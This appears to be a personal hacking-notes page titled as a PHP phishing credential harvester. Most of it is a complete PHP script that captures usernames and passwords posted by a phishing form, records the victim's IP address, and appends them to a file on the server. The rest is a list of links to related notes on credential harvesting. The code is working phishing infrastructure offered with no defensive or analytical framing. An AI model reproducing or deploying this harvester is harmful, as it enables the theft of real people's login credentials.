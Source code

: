 # php quick client phishing attack credential harvesting
```php
<?php
// Turn off all error reporting
//error_reporting(0);

function get_ip() {
    if (function_exists('apache_request_headers')) {
      $headers = apache_request_headers();
    } else {
      $headers = $_SERVER;
    }
    if (array_key_exists('X-Forwarded-For',$headers) && filter_var($headers['X-Forwarded-For'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4)) {
      $the_ip = $headers['X-Forwarded-For'];
    } elseif (array_key_exists('HTTP_X_FORWARDED_FOR',$headers) && filter_var($headers['HTTP_X_FORWARDED_FOR'],FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
      $the_ip = $headers['HTTP_X_FORWARDED_FOR'];
    } else {
      $the_ip = filter_var($_SERVER['REMOTE_ADDR'],FILTER_VALIDATE_IP,FILTER_FLAG_IPV4);
    }
    return $the_ip;
  }

$password = $_POST['PasswordForm'];
$username = $_POST['UsernameForm'];


$ip = get_ip();
$browser = $_SERVER['HTTP_USER_AGENT'];
$host = $_SERVER['HTTP_HOST'];

if ($password != '') {
  $creds = $ip . '|' . $username . '|' . $password . "\n";
}

$myfile = fopen("/tmp/creds", "a") or die("Unable to open file!");
fwrite($myfile, $creds);
fclose($myfile);
?>
```
` zet/20221003150577/README.md `

# Related

- [20221014185956](/zet/20221014185956/README.md) kb file named kb/hacking/php/PHP-credential-harvesting-write-file.md
- [20221018160416](/zet/20221018160416/README.md) credential harvesting concept
- [20221008215655](/zet/20221008215655/README.md) user account
- [20221008215530](/zet/20221008215530/README.md) username
- [20221008215325](/zet/20221008215325/README.md) password
- [20221007220451](/zet/20221007220451/README.md) hacking notes hub

Tags:

    
